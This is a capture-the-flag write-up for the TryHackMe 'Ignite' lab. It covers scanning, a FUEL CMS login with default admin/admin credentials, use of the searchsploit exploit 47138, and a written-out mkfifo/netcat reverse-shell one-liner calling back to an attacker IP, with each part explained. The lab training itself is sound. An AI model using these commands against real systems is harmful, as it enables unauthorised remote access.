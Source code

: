 ```yaml
---
title: TryHackMe - Ignite
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe, Easy]
tags: [tryhackme, linux, nmap, privesc,http, gobuster, searchsploit ]
image:
    path: /assets/img/try%20hack%20me%20/Easy/Ignite/0.png
    alt: Ignite
---
```


# Ignite

A new start-up has a few issues with their web server.  

# Tasks
Read User.txt and Root.txt  

# nmap
## ip `10.10.48.179`

## Command 
```sh
nmap -sV -sC -A -v 10.10.48.179
```
## Results

```sh
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  


## gobuster

```sh
gobuster dir -u http://10.10.48.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](/assets/img/try%20hack%20me%20/Easy/Ignite/1.png)

## The site
Visiting the site i get a welcome page.  
![](/assets/img/try%20hack%20me%20/Easy/Ignite/2.png)

In the welcome page we are redirected to another directory 
	`http://$ip/fuel`  
![](/assets/img/try%20hack%20me%20/Easy/Ignite/3.png)  
![](/assets/img/try%20hack%20me%20/Easy/Ignite/4.png)

login details:  
user name `admin`  
password  `admin`

![](/assets/img/try%20hack%20me%20/Easy/Ignite/5.png)

Now we look for a vector point where we can enumerate and get something to work with.  


Navigating to `assets/upload`  
![](/assets/img/try%20hack%20me%20/Easy/Ignite/6.png)

Here we can connect a reverse shell if possible but its worth a try.  
So i got a reverse shell.php.

Then uploaded it.  
But kept on receiving some errors so resulted to finding other means.  

# searchsploit

## Command 
```sh
	 searchsploit fuel
```
![](/assets/img/try%20hack%20me%20/Easy/Ignite/7.png)

Downloaded the exploit to my machine.  
```sh
	searchsploit -m 47138.py
```
![](/assets/img/try%20hack%20me%20/Easy/Ignite/8.png)

Tried modifying the exploit but no luck.  
Not sure how to go about this ???  


But after some research i got the shell.  
This is after removing some default lines on the code.  

```sh
nc -nlvp 1337
```
![](/assets/img/try%20hack%20me%20/Easy/Ignite/9.png)


- Now that we have our local listener set up we can use netcat on the remote target to push a shell back to us.  
- To do this we need to chain a few different commands together, it can be a little confusing but we are going to break it up and explain each component.  

```sh
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.6.159 1337 >/tmp/f
```
- `rm /tmp/f ;` removes any pre-existing directory called `/tmp/f`, the semicolon ends the command similar to hitting the ENTER key.  
- `mkfifo /tmp/f ;` creates a named pipe at the location `/tmp/f`, semicolon ends the command  
- `cat /tmp/f |` displays the contents of `/tmp/f` and pipes the results into the next command  
- `/bin/sh -i 2>&1 | ` invokes the default shell binary, the ‘-i’ tells it to use interactive mode, redirect stderr2 to the same destination as stdout1, and pipe that to the next command.  
- `nc 10.8.6.159 1337 >/tmp/f ` tell netcat to connect to the remote IP and PORT and redirect that output to the named pipe  
Here is a link to a site that may help with understanding the commands [explain shell](https://explainshell.com/explain?cmd=rm+%2Ftmp%2Ff+%3B+mkfifo+%2Ftmp%2Ff+%3B+cat+%2Ftmp%2Ff+%7C+%2Fbin%2Fsh+-i+2%3E%261+%7C+nc+10.8.6.159+1337+%3E%2Ftmp%2Ff)



